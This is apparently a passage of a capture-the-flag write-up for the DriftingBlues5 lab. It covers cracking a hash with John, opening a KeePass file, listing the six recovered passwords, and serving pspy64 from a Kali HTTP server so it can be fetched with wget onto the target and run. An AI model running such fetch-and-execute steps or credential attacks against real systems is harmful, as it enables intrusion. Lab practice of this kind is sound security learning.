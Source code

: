1 password hash cracked, 0 left

After a search online I came across a page that would allow me to open this online without a program installation

Hint: keeweb (but its not your typical .com)

The keyfile.kdbx was password protected used password retreved from john

inside this file there were 6 keys

2real4surreal

buddyretard

closet313

exalted

fracturedocean

zakkwylde


```
Attack machine (kali)

python3 -m http.Server

* must be in directory with psp64 in order to uploads

Target machine (driftingblues5)

wget 192.168.56.1/8000/pspy64



```
Attack machine (kali)
python3 -m http.server                     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.56.103 - - [12/Apr/2021 22:20:49] "GET /pspy64 HTTP/1.1" 200 -

Target Machine (Driftingblues5)
gill@driftingblues:~$ wget http://192.168.56.1:8000/pspy64
--2021-04-12 20:02:03--  http://192.168.56.1:8000/pspy64
Connecting to 192.168.56.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64.1’

pspy64.1                               100%[============================================================================>]   2.94M  5.22MB/s    in 0.6s    

2021-04-12 20:02:03 (5.22 MB/s) - ‘pspy64’ saved [3078592/3078592]

chmod +x pspy64

```
./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
```